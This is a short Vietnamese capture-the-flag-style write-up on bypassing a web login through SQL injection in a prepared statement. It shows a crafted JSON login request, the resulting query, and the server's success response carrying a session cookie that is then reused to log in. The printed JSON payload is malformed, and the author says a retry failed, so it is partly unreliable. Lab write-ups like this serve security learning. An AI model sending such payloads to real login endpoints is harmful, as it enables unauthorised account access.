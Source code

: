 > Thực ra khi mình giải bài này lần đầu tiên thì việc dùng payload trên là mình đã có thể đăng nhập vào được. Nhưng khi tới lượt làm lại thì nó báo không thành công. [Đây là một ví dụ](../../attachments/Pasted%20image%2020220727224618.png)

```http
POST /api/login HTTP/1.1
Host: 68.183.36.105:32261
Content-Length: 45
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://68.183.36.105:32261
Referer: http://68.183.36.105:32261/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{
	"username":[
		0
	],
	"password":{
		{ "password":1 }
	}
}
```

Prepared statement ban đầu:

```sql
SELECT username FROM users WHERE username = ? AND password = ?
```

Lúc này sẽ trở thành như bên dưới:

```sql
SELECT username FROM users WHERE username = 0 AND password = `password` = 1
```

Nếu đăng nhập thành công, respone sẽ trả về trông như sau:

```http
HTTP/1.1 200 OK
Set-Cookie: session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjU4OTE2NDE0fQ.gyAZ-40AyUK560qnUrFZ1Ftpt532vDEHYZA7rK10w5E; Max-Age=3600; Path=/; Expires=Wed, 27 Jul 2022 11:06:54 GMT
Content-Type: application/json; charset=utf-8
Content-Length: 46
Date: Wed, 27 Jul 2022 10:06:54 GMT
Connection: close

{"message":"User authenticated successfully!"}
```

Bây giờ copy cookie vào website là ta đã đăng nhập thành công!
